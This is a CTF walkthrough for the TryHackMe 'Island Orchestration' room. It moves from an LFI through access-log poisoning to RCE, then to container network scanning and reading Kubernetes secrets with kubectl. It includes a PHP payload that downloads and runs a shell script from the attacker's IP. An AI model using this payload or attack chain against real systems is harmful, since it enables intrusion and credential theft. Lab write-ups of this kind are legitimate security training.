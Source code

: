 ```yaml
---
title: TryHackMe - Island Orchestration - Walkthrough
tags: thm web kubernetes kubectl lfi
---
```


# Description

Room Link: [Island Orchestration](https://tryhackme.com/room/islandorchestration)

![2022-06-25_17-29](https://user-images.githubusercontent.com/84577967/175782516-de2830f0-1a00-4e41-bf61-4c8312532785.png)

Only one flag to catch ... !

# Recon

With `nmap` we can find 2 opened ports

```
Nmap scan report for 10.10.160.23
Host is up, received reset ttl 255 (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Port 80

We have a PHP webapp on port 80

![2022-06-25_17-37](https://user-images.githubusercontent.com/84577967/175782766-7c4176c0-0e58-448a-8d8c-32181f7dc4c3.png)

![image](https://user-images.githubusercontent.com/84577967/175782758-ed3c0642-5acc-4fba-92ab-e60e28d9f95d.png)

And looks like we are facing another LFI story ... Internet is full of LFI Cheat Sheet ...

![image](https://user-images.githubusercontent.com/84577967/175782872-51eb640f-22f2-4ef2-afd7-cba363eacd24.png)

The way to get a reverse shell on this webapp is by trying to include the apache2 `access_log` or `access.log`, I actually found it on `/proc/self/fd/6`

![image](https://user-images.githubusercontent.com/84577967/175782863-b86ecd11-9215-4605-a7fd-dcb7f83b99a9.png)

Then I injected my payload on `User-Agent` value to check if it's really exploitable or not cause in some cases the PHP webapp uses `file_get_contents` or `fopen` and those functions won't execute any PHP code only `include`, `require`, `include_once` and `require_once` would execute the PHP codes of another file ...

![image](https://user-images.githubusercontent.com/84577967/175782913-8fc573d0-d623-4322-b454-5186f3efa5c6.png)

Anyway, looks pretty whenever you get an RCE :smile:

![image](https://user-images.githubusercontent.com/84577967/175782954-55971df9-f2fc-46b9-84be-07587472fca7.png)

And to get a reverse shell I injeted this payload

![image](https://user-images.githubusercontent.com/84577967/175783019-f7aa1a23-5564-4ae1-a410-1ba2ed0a3dbd.png)

```php
<?php file_put_contents('/tmp/s.sh',file_get_contents('http://10.8.48.23:8001/s.sh'),FILE_APPEND);system('bash /tmp/s.sh');?>
```

![image](https://user-images.githubusercontent.com/84577967/175783041-e872251e-42a6-4131-909c-1c70cb295ac6.png)

I wasn't able to find some linux binaries such `ifconfig`, `curl` ...

![image](https://user-images.githubusercontent.com/84577967/175783088-70c25bb8-2acb-40bd-b9c8-3231eaf41ffb.png)

So I directly knew that we are inside a docker container or something similar ... and usually in these cases I use my repo where I collected most of linux binaries [linux-static-binaries](https://github.com/ab2pentest/linux-static-binaries)

So let's upload `ifconfig` and see what we have here

![image](https://user-images.githubusercontent.com/84577967/175783182-0f89544d-249d-4008-81ad-c00d15955af8.png)

Great ! looks like we are in a docker let's use nmap and see if we have other containers ... I use this static binary [nmap-static-binaries](https://github.com/opsec-infosec/nmap-static-binaries)

After uploading it

```bash
./nmap 172.17.0.0/24 -vvv
```

output:

```
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up, received conn-refused (0.00027s latency).
Scanned at 2022-06-25 15:38:09 UTC for 4s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
8443/tcp  open     https-alt syn-ack
30000/tcp filtered ndmps     no-response

Nmap scan report for coredns-78fcd69978-ttkch (172.17.0.2)
Host is up, received conn-refused (0.00029s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT     STATE SERVICE     REASON
53/tcp   open  domain      syn-ack
8080/tcp open  http-proxy  syn-ack
8181/tcp open  intermapper syn-ack

Nmap scan report for islands-7655b7749f-zvq52 (172.17.0.3)
Host is up, received syn-ack (0.00030s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

There are 3 hosts

### 172.17.0.1

From the ports `10250`, `10256` and `8443` looks like a kubernetes server

```bash
./nmap 172.17.0.1 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:39:27 UTC for 3s
Not shown: 65528 closed ports
Reason: 65528 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
2376/tcp  open     docker    syn-ack
8443/tcp  open     https-alt syn-ack
10249/tcp open     unknown   syn-ack
10250/tcp open     unknown   syn-ack
10256/tcp open     unknown   syn-ack
30000/tcp filtered ndmps     no-response
```

### 172.17.0.2

I didn't know what this host is doing ...

```bash
./nmap -sC -sV 172.17.0.2 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:38:54 UTC for 16s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE SERVICE    REASON  VERSION
53/tcp   open  tcpwrapped syn-ack
8080/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8181/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
9153/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

## Kubernetes

So the first thing I always do is downloading `kubectl`

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Let's try to list pods

```bash
./kubectl get pods
```

![image](https://user-images.githubusercontent.com/84577967/175783551-9ba5d6ff-a7e9-41dc-8972-a77174a1bf4f.png)

The user has no rights to list pods, so let's inspect authorization first 

![image](https://user-images.githubusercontent.com/84577967/175783621-a93738c1-3c71-4fe3-940e-5446b0d20336.png)

Using the command below we can list all what our current user can do

```
./kubectl auth can-i --list
```

![image](https://user-images.githubusercontent.com/84577967/175783658-e9fe2bfa-96ab-4bc6-a996-89701ac02ff4.png)

There is a reousrce named `secrets` let's check what we have there

```bash
./kubectl get secrets
```

![image](https://user-images.githubusercontent.com/84577967/175783710-ada11fa5-38ff-47c3-b1c6-386b2156e251.png)

Looks like we are getting close to get the flag ...

```bash
./kubectl describe secrets/flag
```

![image](https://user-images.githubusercontent.com/84577967/175783748-91ab5b9e-892f-4a93-8302-32a50f785761.png)


```bash
./kubectl describe secrets/flag
```

# Flag

```bash
./kubectl get secret flag -o=json
```

![image](https://user-images.githubusercontent.com/84577967/175783827-fb49db11-56a5-46ea-b936-f680658eed83.png)

We base64 decode the value flag and that's how we got our flag !
